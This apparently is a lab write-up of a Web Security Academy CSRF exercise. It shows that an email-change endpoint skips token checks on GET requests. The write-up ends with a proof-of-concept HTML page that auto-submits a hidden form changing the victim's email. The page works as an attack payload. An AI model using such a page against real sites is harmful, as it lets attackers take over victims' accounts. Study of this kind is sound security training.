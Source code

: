 <h1>CSRF where token validation depends on request method</h1>

Scenario: I am testing the data integrity of a website located at 0a15000904ab0c0a808330ff00b20058.web-security-academy[.]net. I want to know if any
sensitive authenticated actions on the website are vulnerable to Cross Site Request Forgery (CSRF). Let's follow the checks below to find a CSRF 
vulnerability.

1. Check the SameSite attribute of the session cookie(s).
   ![image](https://github.com/user-attachments/assets/15f4d050-80bb-453b-9006-baea2a63699a)

   As you can see, upon logging into the target website, my session cookie has the SameSite attribute set to 'None'. This means my session cookie
   can be used in cross-site requests.

2. Are there any authenticated actions that are not protected with CSRF tokens? Analyze the next 3 images showing the process of changing a user's email
   address on 0a15000904ab0c0a808330ff00b20058.web-security-academy[.]net.
   ![image](https://github.com/user-attachments/assets/a983ae9c-bd9a-44d1-8a8c-3041d92aa2f7)
   ![image](https://github.com/user-attachments/assets/1ba450ce-194a-45db-822f-832937e94474)
   ![image](https://github.com/user-attachments/assets/8c506ddb-a1a1-4aa7-890c-a64e3c5a0567)

   Notice that when sending an HTTP POST request to update the user's email address, a valid CSRF is required in order for the request to be accepted by
   the server. Let's instead send a GET request without any CSRF tokens and see if the user's email address is updated. Analyze the 2 images below.
   ![image](https://github.com/user-attachments/assets/40bd66d0-3415-4745-96d8-d7b8f79bb99f)
   ![image](https://github.com/user-attachments/assets/bd92a962-3c91-44ee-9905-f4b7dbc5b88e)

   Notice that when the user sends an HTTP GET request without any CSRF tokens present in the request, the user's email address is still updated. This
   means that the GET request to update a user's email address is vulnerable to CSRF.

<h1>Proof Of Concept</h1>
To make a user change their email address on 0a15000904ab0c0a808330ff00b20058.web-security-academy[.]net, an attacker can host the following file on 
their malicious domain. When the victim user visits the attacker's domain, their 0a15000904ab0c0a808330ff00b20058.web-security-academy[.]net email address
will be changed.

```
<!DOCTYPE html>
<html>
<body>
      <form action="https://0a15000904ab0c0a808330ff00b20058.web-security-academy.net/my-account/change-email" method="GET">
        <input type="hidden" name="email" value="yougotpwned@evil-user.net">
      </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
``` 
   

